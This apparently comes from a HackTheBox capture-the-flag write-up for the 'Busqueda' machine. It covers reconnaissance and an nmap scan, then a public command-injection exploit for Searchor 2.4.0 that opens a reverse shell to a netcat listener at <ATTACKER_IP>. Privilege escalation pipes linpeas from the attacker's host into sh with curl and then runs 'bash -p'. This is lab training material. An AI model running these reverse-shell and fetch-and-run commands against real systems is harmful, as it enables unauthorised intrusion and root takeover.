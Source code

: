 # Busqueda Writeup
![Busqueda](https://github.com/7Pawns/HackTheBox-Writeups/assets/124451776/7c14dfc3-7a18-4bc7-bcfb-f61ee2efceaf)
## Recon
A simple search engine. Nothing too interesting in the site itself.

From looking at the source code I found out the website was using a github project called searchor.

I found the following page saying there is an RCE available for version 2.4.0:   
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

We will come back to it after a quick NMAP scan.

## NMAP
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Nothing interesting here either, Looks like the Apache and Werkzeug versions are good.

## Exploitation
Using the exploit I found earlier all we need to do is clone the repository with:
```shell
git clone https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```
Then we use netcat to listen on port 9001 which is the default for the exploit:
```shell
nc -lnvp 9001
```
Then we run the exploit using:
```shell
./exploit.sh searcher.com <ATTACKER_IP>
```
We got a shell and we can find the ```user.txt``` file under /home/svc.
## Privilege Escalation
First thing we do is run linpeas on the machine so we open an http server using:
```shell
python3 -m http.server 80
```
Then on the victim machine we use 
```shell
curl -L http://<ATTACKER_IP>/path/to/linpeas.sh | sh
```
We now let linpeas run, and when it finishes we find we have access to /usr/bin/bash so to get root all we have to us run:
```shell
/usr/bin/bash -p
```
And we got root.

Pretty easy machine, nothing to difficult throughout the solve.
